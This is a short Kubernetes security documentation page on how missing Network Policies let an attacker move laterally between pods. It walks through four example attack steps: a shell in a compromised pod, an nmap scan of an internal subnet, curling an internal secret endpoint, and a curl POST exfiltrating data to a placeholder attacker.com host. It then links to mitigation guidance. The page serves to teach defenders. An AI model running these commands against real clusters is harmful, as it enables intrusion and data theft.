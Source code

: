 ```yaml
---
sidebar_position: 5
title: "Lack of Network Policies"
description: "How missing Kubernetes Network Policies enable lateral movement and data exfiltration by attackers."
---
```


# Lack of Network Policies

When Kubernetes clusters are deployed without Network Policies, **all pods can communicate freely with one another**. This default behavior poses a serious risk: it allows an attacker who gains access to any pod to move laterally throughout the cluster, access internal services, and exfiltrate data without restriction.

This article demonstrates how a lack of network segmentation enables **lateral movement and sensitive data exposure**.

---

## Exploitation Steps: Lateral Movement in Kubernetes

An attacker compromises a low-privileged pod in the cluster and uses it as a pivot point.

### Step 1: Gain Shell Access to the Pod

```bash
kubectl exec -it <compromised-pod> -- /bin/sh
```

### Step 2: Discover Internal Services

With unrestricted network access, the attacker installs common scanning tools to enumerate services:

```bash
apt-get update && apt-get install -y nmap
nmap -p 80,443,8080 10.0.0.0/24
```

### Step 3: Access Unprotected Services

After identifying service IPs, the attacker connects to internal APIs or databases directly:

```bash
curl http://10.0.0.15:8080/secret-data
```

### Step 4: Exfiltrate Data

Sensitive information is sent outside the cluster via an outbound HTTP request:

```bash
curl -X POST -d @/path/to/secret-data http://attacker.com/upload
```

---

## Result

Without any Network Policies in place:

- Lateral movement goes **unrestricted**.
- Internal services are **exposed** across the cluster.
- Data can be **exfiltrated externally** without detection or limitation.

---

## Mitigation

To prevent lateral movement and reduce your cluster's attack surface:

➡ [Harden your cluster with Kubernetes Network Policies](/docs/best_practices/cluster_setup_and_hardening/network_security/network_policies)
